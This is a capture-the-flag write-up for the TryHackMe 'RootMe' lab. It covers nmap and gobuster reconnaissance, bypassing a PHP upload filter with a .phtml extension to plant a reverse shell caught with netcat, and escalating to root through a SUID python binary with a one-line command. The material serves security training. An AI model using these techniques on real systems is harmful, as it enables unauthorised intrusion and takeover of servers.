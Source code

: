 ```yaml
---
layout: article
title: RootMe CTF
aside:
  toc: true
sidebar:
  nav: write-ups
cover: https://res.cloudinary.com/practicaldev/image/fetch/s--J4tkVXTj--/c_imagga_scale,f_auto,fl_progressive,h_420,q_auto,w_1000/https://dev-to-uploads.s3.amazonaws.com/uploads/articles/kqqova632hnzjav20vx5.png
permalink: /writeups/rootme
tags:
- TryHackMe
- Write-Up
---
```


## Reconnaissance
First of all, we start with a little scan to discover services and technology about target.

TCP SYN SCAN --> [https://nmap.org/book/synscan.html](https://nmap.org/book/synscan.html)

`sudo nmap -sS <IP ADDRESS> -p-`

This may take few minutes because we are scanning all TCP ports.

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 21:44 CEST
Nmap scan report for 10.10.8.205
Host is up (0.22s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 100.80 seconds
```

Ports 22 and 80 are open. We can navigate the website.

To find Apache version, launch the following command:
`sudo nmap -sV <IP ADDRESS> -p 80`

Web server folders enumeration using `gobuster`:
`gobuster dir -u http://<IP ADDRESS> -w /usr/share/wordlists/dirb/big.txt`

We have found */panel* folder.

## Getting a shell
We can upload files by the panel section of the website.
Upload this php reverse shell: [https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
The website doesn't accept php file extension, so we have to bypass the file name. 
We can assign a *phtml* extension to the reverse shell file. 
- ***.phtml*** extension are **most commonly associated with PHP Web pages**. The PHTML files contain PHP code that is parsed by a PHP engine. This allows the Web server to generate dynamic HTML that is displayed in a Web browser.
Moreover we have to change ip address and port in the file.
We just have to upload the reverse shell, use *netcat* to open a listening connection on our machine and execute the file via web browser.
Et voilà, we have a shell.

## Privilege escalation
First of all we search for files with SUID permission.
`find / -user root -perm /4000 2>/dev/null`

Now we have list of all files that can be executed like root from other users.
We find */usr/bin/python*...
Maybe we can execute python to obtain a root shell.

`python -c 'import os; os.execl("/bin/sh", "sh", "-p")'`
-  [https://gtfobins.github.io/gtfobins/python/#suid](https://gtfobins.github.io/gtfobins/python/#suid)

